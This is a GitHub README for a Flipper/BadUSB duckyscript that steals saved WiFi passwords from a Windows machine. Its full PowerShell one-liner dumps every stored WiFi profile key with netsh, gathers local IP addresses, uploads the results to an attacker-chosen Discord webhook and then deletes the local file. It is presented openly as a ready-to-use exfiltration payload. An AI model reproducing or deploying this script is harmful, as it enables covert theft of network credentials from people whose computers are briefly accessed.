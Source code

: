 
<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

## Description

This is a BadUSB script to grab WiFi passwords from Windows machine and submit to Discord WebHook via POST request.
This is a duckyscript to grab WiFi passwords from Windows machine and submit to Discord WebHook via POST request.
Tested on Windows 10 Professional ( with local administrator rights).
(privilege escilation may be required before deploying--untested without admin perms).
What the uniqueness about my script is, it will generate and .xml file containing the SSID of the target as well as wifi password of target.~~~
The script also generate a txt file with a table containing the target ip address both manual and DHCP along with wifi password included.~~~~~~
After it completes that in miliseconds it will compile both the .xml and .txt into one nice beautiful webhook POST.
See included images for examples


## Version History

* 0.1
    * Initial Release


## Category:	Exfiltration

<p align="right">(<a href="#top">back to top</a>)</p>

### CHANGE:   <\Your Intended Discord WebHook URL/> on ln no.43

### Executing program

* Plug in your device
```
* STRING $url=" <\Your Intended Discord WebHook URL/>"; Get-NetIPAddress -AddressFamily IPv4 | Select-Object IPAddress,SuffixOrigin | where IPAddress -notmatch '(127.0.0.1|169.254.\d+.\d+)' >> WiFi-PASS.txt;(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{PROFILE_NAME=$name;PASSWORD=$pass}} | Format-Table -AutoSize >> WiFi-PASS.txt;$Body=@{ content = "$env:computername Stats from Flipper"};Invoke-RestMethod -ContentType 'Application/Json' -Uri $url  -Method Post -Body ($Body | ConvertTo-Json);curl.exe -F "file1=@WiFi-PASS.txt" $url ; Remove-Item '.\WiFi-PASS.txt';
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contact

<div><h2>Cicada Unit</h2></div>
  <p><br/>
  
  <a href="https://github.com/Cicada-Unit/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>


  Project Link: [https://github.com/Cicada-Unit/Flipper-Cicada-custom-WIFIgrabber
</p>




